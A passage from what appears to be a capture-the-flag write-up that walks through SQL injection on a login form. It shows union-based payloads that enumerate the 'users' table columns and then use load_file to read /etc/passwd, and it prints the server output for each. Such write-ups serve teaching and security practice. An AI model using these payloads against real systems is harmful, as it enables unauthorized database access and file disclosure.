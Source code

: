 At the end we see table **users**, lets extract columns from it.

__REQUEST 5:__
```bash
uname=admin%27 union all select 1,concat(column_name,0x2c),3,4,5,6 from information_schema.columns where table_name='users';-&password=123
```

__RESPONSE 5:__
```bash
id,username,password,email,status,date_created,
```

__REQUEST 6:__
```bash
uname=admin%27 union all select 1,concat(username,0x3a,password),3,4,5,6 from information_schema.users;-&password=123
```

__RESPONSE 6:__
```bash
Incorrect creds.
```

Unfortunately we are not able to get any credentials from the writer database, however we were able to get the information_schema admin credentials in request 3.

----------------------------------------------------------------

### Step 3

We can't crack the admin-hash using hashcat and rockyou.txt, nor is the hash in crackstation.org.
Playing around further with SQLi we are able to read files (LFI) using load_file.

__REQUEST 7:__
```bash
uname=admin%27 union all select 1,load_file('/etc/passwd'),3,4,5,6;--&password=123
```

__RESPONSE 7:__
```python
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
```